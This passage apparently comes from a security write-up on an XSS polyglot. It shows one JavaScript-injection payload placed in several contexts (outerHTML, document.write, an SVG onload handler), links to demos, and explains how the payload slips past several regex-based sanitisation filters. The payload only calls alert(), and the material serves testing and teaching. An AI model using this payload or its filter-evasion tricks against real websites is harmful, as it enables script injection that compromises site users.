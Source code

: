 _Demo: _[_https://jsbin.com/nimokaz_](https://jsbin.com/nimokaz)

```
var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.head.outerHTML = data;
```

_Demo: _[_https://jsbin.com/yowivo_](https://jsbin.com/yowivo)

```
var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.write(data);
document.close();
```

_Demo: _[_https://jsbin.com/ruhofi_](https://jsbin.com/ruhofi)

* **Event handlers with HTML-escaped values:**

```
<svg onload="

void 'javascript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e';

"></svg>
```

_Demo: _[_https://jsbin.com/puboha_](https://jsbin.com/puboha)

###

### Filter evasion:

As you might have already noticed, the polyglot has been crafted with filter evasion in mind. For instance:

* `jaVasCript:`, `oNcliCk=`, et al. bypasses:

```
preg_replace('/\b(?:javascript:|on\w+=)/', '', PAYLOAD);
```

* `` /*`/*\` `` bypasses:

```
preg_replace('/`/', '\`', PAYLOAD);
```

* `</stYle/</titLe/</teXtarEa/</scRipt/--!>` bypasses:

```
preg_replace('/<\/\w+>/', '', PAYLOAD);
```

* `--!>` bypasses:

```
preg_replace('/-->/', '', PAYLOAD);
```
